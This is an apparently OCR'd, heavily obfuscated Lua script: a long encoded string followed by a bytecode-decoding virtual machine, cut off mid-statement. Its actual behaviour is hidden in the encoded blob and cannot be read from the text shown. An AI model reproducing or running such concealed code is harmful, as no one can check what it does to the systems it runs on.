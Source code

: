 SXpJKdd!KKdi=E>!EJKoILPPoiPEp!7a7ipECXdJXdi!Xg%CEE-!IaCoo:!PCi!pq=pasidEEXiJ=dJ!=gVCIEF!oJPoCskPaiFpJ=daRiiEXXJaEdg}IKoCopX!CaIoaLGPKCdpJ=ig=iJE!XgapdP&oiXCCp#!agEoKEdPXJiI==JKEigEiXPaod!{dKaCaIp!Kod=EKooipIP=JCghidpoX!aCVIa&odEpXKC!Id!gEoPXJgdI=Pi=-oKoCKaidC?KPdCX!gCbdo=yg!JIE+!dJoop=!piXaaKodhXJIECXCC=da=8gJisEPdd=PKaCppKC=IP=oaoPoCKIg=IgPEpKIi!pdXXPDKJi*pX!ia=!Eg_iEf=Ia!Kg!iCE&aIpaXaa=igEEKXCpIP!J3}PJJoI!=Cda;JKoCiaEdI)iK=CJ!gJop=Vag7oPEEXCaidXigpdXXaid=RJPEJg=d!agIo!ECPHpg=K!dKdiXpiPXppoE;aPIi=Io!!gCdWaEXpJgdd=CKii=pJP=pdoI_KPoCEIC!tgadp! XdJPdi=!KJiKpgXX7CooRXPCCaIa=EgKiIEXXpJ!dJ<EKgiPpP!da!oI6=PaJpIKX!gXioE=PiEKdg^pKPiXp!!CaSdCXXPKJpIX!gg=iJpEXgJXdP{dK!Copz!Jgpda=KPXJoI=!!KEigpIKPJjd!3iKWCJIpX+gddKEIP=JodE=aKIiPpoX!aidm1JPpCJId!KgiI=L!XEJadI=KKoigpCKli!op^gPdCPIi!ggJdEaiXIJKdo=XKCi!paPpJiodnPPiC!IJ!gggdIEJXoJXdC==Kai=pKPdapoi#!PJCqIg!ggPioEoXCJ=da=7KKCIpX!pJ!oJEEPgJEIP=dg!iCP=XaapdKTIKXCip=!CgEogEIPPCJI!=Cg_iiECXKaddXKgd/EoP6C!oI!uKdooppP!=igJiKpdXXdr!iaioPpCP!Cgp==agoPXJIdp=KKdEgKKCipP!oXJKrCJIo!!gC=aKJiopidE=PKii=pJCpaaoIyPPoC!IC!*gaipEJPgJXdi==iXlGKiJpp!=dKCo!EpXo!=gEidEXXidJ!IJXiC1!Kgi=Io=dgKPiC+IK=dgXeCXJXoJXdgVIKP=!PXC!pPoinaPKJdIXKIdCYCg=Cap9XJa5dPCdpa!agpoKPdiEpoPiaII==CEmXJaod!mCCg&)KLJiJ!oXEiP=CiPK=gKpiPEPX!aCd5=aIgCKII!XgEo=EJXECJPX=PKdi!E!Xyaaop!KaaCXIo!=gCiEEoXIJidE=!Kii5Ed!pagod<XPiCKIC=EggiIhCXoJXdC!!dICppg!daIoil=PJi=2o=IggioEJXCJ.da4pKpCdpP!iaXoJ#APgCEII=ogXiCEPXaapdK!dKpCip!!Ja/ogqKPPCIpa=CgXiaEiXKaddX0iKECJpT!gamoPEIP!iCIa=aKEiKpIXXaod=!JaiCgIp!Pgdo!_PP8iaK!=KKIiXpoX=aEoE!gPECPId!!giomEiXpiKIi=XKoi=pC!EJXoI!PKEC!Ii!)gJipEaXdJXdp==KCCEpJ!IaKoo{gg!C?Ia=pgaidEPXiJ==CMEKgCIpK!oa!oC*=PaJpIK=da#iiE=XJJ!I*uIKPCo!JC!p!=dK=iiEpPCaEIXioEgXgaIdPKoopEiKCJdpj!JEEPaJiI==Jdg)aKiCCapdX^CKMCaPK!Ja^oXEiP=dpXJJJd!iaEPX!aCd{PiogEgPpJPdI!KKIo=JCIJ=PKoi!XKCEIi=Ea=CdEEXoCidI!=ECP=JPdo=!Iu0=K0i!aJdK7XPiC==pJJIJ=!Xiiapo!pJXKiiJpK!daXk=ggodp!XoJEIi=PKKCpJXI=<pKKCdPPJpIK=Ia=CCSPPXJIdgiiEtXaapdKZdKXCip=!oa=ogEIPPpi=CX,g*iappPaE!dXHoK=iKIE!ggIdPJXP!JiI}=oKpiKpdPKEkd=TCPEiXII!PgoI!!PPVJJdp=gKdiapiXaVIoE+aPICoIo!XgCo=EaP!Jgdd=XKiiJpJXfagd=zKPoC!ICXggaiEEKPpECdi=!KJiapg!IaPdIXaPCC!Ia!igKidEXXiC=dJ=0KgCEpP!da!doNEPaJEIK=EgXiiE=KJCKdgcpKPCdp!XXaHdC=iPKJEIX=dg=iJpEXgJJdPydK!Cdp1!CgpIKWEPXJoI==CKEiIpIKPigd!1iK&CJIp!ogdIXapP=JCdE=aKIiEpoK!Cgd9zJPpCgId!dgiI==KXEJadI=KKoiapCKtJKop>gPdCPIi!!gJiE#iXIJKdo=PKCi=paX!aiod>XPiCXIJ!0ggiIPKXoJ!dC==KaCppK!IaXoiR=PJiKIg=IgPidPgXs!omaPi==rii!!IJ=oJEEPgIKPCJJdX=aKEi_p!=aaod!SpX=JCp=!iu&PIJoI!=CiX-EPEiaII!gapogfip!!JgIoPEoi=I2IX=pKpiKpdJXpg!!J=oPDJK%!KoEiCiPJZdXJiJXCoigEKX=aJoEK!odEaXdJpoC=dKJoapiXp=PIJEJpd!pK=IdCKqoCXIC! gaipEKXdaXvC=!aXKdv{dIpJgGJpZCC=iIRKKigo!aCXECJg={CddIiJdoaPoEXlJaJEppEXC!pip!XagpJK=RKiCop!!CoXEIaFigECXJ=Ig!iJpEXgppdKKEd!iX!WI!IU!IoiPgJpI==JKE=IPpCIpEdKAIKZCaIpJddI!ZKEPPJodE=gKI=!K:iCai!==g!=KPdgoEdIgEECC!gEoXoX=PgIPdppaJopxKPdCXIi!=gJiE=aXIJPdo!PdEiTpJ!paCodeXPii=gz=EgaiIsXXoJ!dC!!dICppg!daaoi7=PJiEO==IgKioEXXCJEda=PpiCdpP!iaJoJnQPgJpIP=EgXiCESXaJKdK?IKXCpp!!JgEog=IPPJdI!!oIgiapEXKJIdX<iK=iiP=!ggEoP==P!JCI =agEiKpIXXadd=}CPEiJpE!Pgdo!joP9JadpXKgiiXpoX=aCoE;oPIoPpp!!gioxEJXpJdddXXg-i=pC!EaaoILaPoo!pp!1gJipEgXdJKdi!XdpCEpJ!IJ!oox!PCoc0==pgaidEKXiCPdJ!=KECIpa!oadoCQwPai+Id=dgaiiEIXJaEdg=EglCopa!CaJoaEpPKCpIE=igaiJEdXgaIdP=IKPCCpa!aJ!oKEdPXCdpi=JgaigEXXPaod!=oI!Capa!KJ=oXEiP=CiEP=ggaiPEPX!aCdw=CKpCKpa!XaKo=EJXECJpi=Pgai!piX+aaop=ag9CXpa!=aJiEEgXICgpX=!gaitEP!paKodNXKpC=Ii=EaPiIEgXoC!I==4KJCpEX!daKoiuKPCJEIg=IggioEXXCJk=JWpKKCdpP!ia=oJ)NPgJIIP=o");local d=0;h.zYkgbHMC(function()h.TCWRGweO()d=d+1 end)local function e(e,n)if n then return d end;d=e+d;end local n,d,f=t(0,t,e,r,h.qlBCEcCW);local function p()local d,n=h.qlBCEcCW(r,e(1,3),e(5,6)+2);e(2);return(n*256)+d;end;local k=true;local k=0 local function u()local o=d();local e=d();local a=1;local o=(n(e,1,20)*(2^32))+o;local d=n(e,21,31);local e=((-1)^n(e,32));if(d==0)then if(o==k)then return e*0;else d=1;a=0;end;elseif(d==2047)then return(o==0)and(e*(1/0))or(e*(0/0));end;return h.LuP_goHM(e,d-1023)*(a+(o/(2^52)));end;local c=d;local function _(d)local n;if(not d)then d=c();if(d==0)then return'';end;end;n=h.JyePdmzo(r,e(1,3),e(5,6)+d-1);e(d)local e=""for d=(1+k),#n do e=e..h.JyePdmzo(n,d,d)end return e;end;local c=#h.zKkHIbha(s('\49.\48'))~=1 local e=d;local function ee(...)return{...},h.JkfsJuvO('#',...)end local function y()local s={};local k={};local e={};local r={s,k,nil,e};local e=d()local t={}for o=1,e do local n=f();local e;if(n==2)then e=(f()~=#{});elseif(n==1)then local d=u();if c and h.EwmHODLu(h.zKkHIbha(d),'.(\48+)$')then d=h.jAaBV_XZ(d);end e=d;elseif(n==3)then e=_();end;t[o]=e;end;for h=1,d()do local e=f();if(n(e,1,1)==0)then local l=n(e,2,3);local f=n(e,4,6);local e={p(),p(),nil,nil};if(l==0)then e[a]=p();e[g]=p();elseif(l==#{1})then e[a]=d();elseif(l==b[2])then e[a]=d()-(2^16)elseif(l==b[3])then e[a]=d()-(2^16)e[g]=p();end;if(n(f,1,1)==1)then e[o]=t[e[o]]end if(n(f,2,2)==1)then e[a]=t[e[a]]end if(n(f,3,3)==1)then e[g]=t[e[g]]end s[h]=e;end end;r[3]=f();for e=1,d()do k[e-(#{1})]=y();end;return r;end;local function j(n,e,d)local o=e;local o=d;return s(h.EwmHODLu(h.EwmHODLu(({h.zYkgbHMC(n)})[2],e),d))end local function c(u,e,f)local function ne(...)local p,_,s,y,b,d,r,z,k,m,j,n;local e=0;while-1<e do if 3>e then if 0<e then if e>-2 then for n=29,68 do if 1<e then d=-41;r=-1;break;end;s=t(6,68,3,81,u);b=ee y=0;break;end;else s=t(6,68,3,81,u);b=ee y=0;end else p=t(6,16,1,47,u);_=t(6,35,2,63,u);end else if 5<=e then if e>=3 then repeat if e~=6 then n=t(7);break;end;e=-2;until true;else e=-2;end else if e~=2 then repeat if 3~=e then m=h.JkfsJuvO('#',...)-1;j={};break;end;z={};k={...};until true;else z={};k={...};end end end e=e+1;end;for e=0,m do if(e>=s)then z[e-s]=k[e+1];else n[e]=k[e+1];end;end;local e=m-s+1 local e;local t;local function h(...)while true do end end while true do if d<-40 then d=d+42 end e=p[d];t=e[de];if 82>=t then if 41>t then if t<20 then if t>=10 then if t<15 then if 11>=t then if